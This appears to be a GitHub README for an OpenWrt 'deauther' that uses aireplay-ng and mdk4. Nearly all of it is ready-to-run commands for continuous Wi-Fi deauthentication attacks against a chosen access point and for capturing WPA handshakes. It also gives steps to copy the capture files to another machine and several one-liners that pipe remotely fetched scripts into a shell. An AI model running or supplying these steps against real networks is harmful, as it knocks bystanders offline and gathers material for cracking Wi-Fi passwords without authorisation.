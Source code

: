 # openwrt deauther based on airplay-ng and mdk4
- Functions similar on kali
- Can also capture WPA Handshakes
- Stable on openwrt version 22.03.*

## Root access 
```sh
ssh root@192.168.1.1
```
```sh
telnet 192.168.1.1
```
# MDK4 for Mipsel_24kc
```sh
opkg update && wget -O mdk4.ipk https://raw.githubusercontent.com/xiv3r/openwrt-deauther/refs/heads/main/mdk4_4.2-5_mipsel_24kc.ipk && opkg install mdk4.ipk
```

# Auto install 
```sh
opkg update && wget -qO- https://raw.githubusercontent.com/xiv3r/openwrt-deauther/refs/heads/main/install.sh | sh
````

# Using aireplay-ng 
```sh
sh wlan0mon.sh && airodump-ng wlan0mon
```
> ctrl + c
```sh
aireplay-ng wlan0mon --deauth 0 -a (Mac BSSID)
```
# Monitor Mode 
```sh
wget -qO- https://raw.githubusercontent.com/xiv3r/openwrt-deauther/refs/heads/main/wlan0mon.sh | sh
```
# Run
```sh
sh wlan0mon.sh
```
# Using mdk4
```sh
sh wlan0mon.sh && mdk4 wlan0mon d
```
## Manual
> More info
 - aireplay-ng --help
 - airodump-ng --help
 - aircrack-ng --help

`iw phy phy0 interface add wlan0mon type monitor`

`ip link set wlan0mon up`

`airodump-ng wlan0mon`

`aireplay-ng wlan0mon --deauth 0 -a 32:AA:E4:18:90:45 --ignore-negative-one`

- -a | bssid -a (32:AA:E4:18:90:45)

## Export handshake file from openwrt to local storage
> [!Tip]
> install SFTP server in both system in order that SCP to work

> Openwrt: `opkg install openssh-sftp-server`

> Linux/Termux: `apt install openssh-sftp-server`

- Termux Terminal 
```sh
scp root@192.168.1.1:*.cap storage/downloads
```
- Kali terminal 
```sh
scp root@192.168.1.1:*.cap /home/*/Downloads
```

> [!Tip]
 > * .cap - export any name with .cap file format
